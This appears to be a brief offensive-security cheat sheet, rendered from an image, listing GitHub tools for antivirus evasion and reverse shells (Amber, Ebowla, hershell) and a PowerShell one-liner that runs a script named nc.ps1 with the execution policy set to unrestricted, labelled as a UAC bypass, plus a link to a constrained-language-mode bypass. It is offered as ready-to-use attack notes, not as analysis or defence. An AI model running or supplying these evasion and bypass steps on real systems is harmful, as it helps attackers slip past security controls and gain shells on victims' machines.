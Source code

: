 AV
---

https://github.com/EgeBalci/Amber
https://github.com/Genetic-Malware/Ebowla
https://github.com/lesnuages/hershell


POWERSHELL
---
PowerShell -NoProfile -ExecutionPolicy Unrestricted -Command "& {Start-Process PowerShell -ArgumentList '-NoProfile -ExecutionPolicy Unrestricted -File ""...\Temp\nc.ps1""'}"; (UAC Bypass)

https://github.com/padovah4ck/PSByPassCLM
